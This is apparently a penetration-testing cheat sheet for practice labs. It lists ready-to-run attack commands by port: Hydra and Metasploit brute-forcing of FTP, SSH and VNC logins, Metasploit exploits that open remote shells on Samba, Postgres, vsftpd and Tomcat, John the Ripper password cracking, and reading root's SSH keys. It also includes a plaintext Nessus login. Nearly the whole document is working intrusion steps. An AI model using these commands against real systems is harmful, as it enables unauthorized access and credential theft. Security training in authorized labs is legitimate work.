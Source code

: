 #### Nmap

 nmap -Pn -sV Target
 
 nmap -sV -sC 10.10.91.172 -Pn

 nmap -sC -sT Target   (TCP SCAN)

 nmap -A Target (Aggressive scan)

 

 #### Searchsploit

 searchsploit service version
 
 searchsploit -m number_of_the_exploit(like 42233)
 
 Go to the directory where it is downloaded it would be the same directory.

 open it, cat 42233.txt and read it.

 


### Port 21
#### Hydra

sudo hydra -L user.txt -P pass.txt target ftp   ----> FTP

#### Vsftpd Exploit

In msfconsole

search vsftpd version

use exploit/unix/ftp/
show options
set RHOSTS ip
exploit

### Port 22

#### Hydra

hydra -L user.txt -P pass.txt 192.168.1.103 ssh

#### SSH BFA
use **auxiliary/scanner/ssh/ssh_login**
show options

set RHOSTS ip

set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt

or 

set USER_FILE /usr/share/user.txt
set PASS_FILE /usr/share/pass.txt

or 

**set STOP_ON_SUCCESS true**

set VERBOSE true

exploit

If sessions opened type
sessions
sessions 1 or 2 or whatever the shell opened is or sessions -u 1 or 2
shell (For better view type shell, it will look like linux)

Connect: ssh username@ip

### Port 139 & 445 (Samba)

use **exploit/multi/samba/usermap_script**

show options

set RHOSTS ip

exploit

id , uname -a, python -c 'import pty:pty.spawn("/bin/bash")'

#### Connect to SMB (View Shares)

smbclient -L \\10.10.101.175

smbclient //10.10.101.175/anonymous

ls

get log.txt

#### John The Ripper command

john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1 file


#### Hydra Commands

hydra -l username -P passwordlist.txt ssh://target_ip

hydra -L userlist.txt -P passwordlist.txt ftp://target_ip

hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.137.76 ssh


### Base32 and 64 Decode

echo "KBQWY4DONAQHE53UOJ5CA2LXOQQEQSCBEBZHIZ3JPB2XQ4TQNF2CA5LEM4QHEYLKORUC4===" | base32 -d


### Port  5432 (Postgres)

search postgres
use **exploit/linux/postgres/postgres_payload**
set RHOSTS ip
set LHOST ip
run
sessions -u 1 or 2 or whichever

### Port 5900 (VNC)

use **auxiliary/scanner/vnc/vnc_login**
set RHOSTS
exploit

after getting password go to terminal

vncviewer vulnerable_ip

For authorized ssh keys after login:
cd root
ls -la
cd .ssh
ls -la
cat authorized_keys

### Port 8180 (Not default port) (Tomcat)

use exploit/multi/http/tomcat_mgr_upload

show options

set RHOSTS

set RPORT 8180

set HttpUsername tomcat

set HttpPassword tomcat

### Port 3389

xfreerdp /u:wade /p:parzival /v:10.10.167.18  (Connect using Linux)

### Nessus

nessus ( command /bin/systemctl start nessusd.service, the go to https://localhost:8834/#/ and login, root, Root@123 in windows)

#### For Windows

Start

C:\Windows\system32>net start "Tenable Nessus"

Stop	

C:\Windows\system32>net stop "Tenable Nessus"
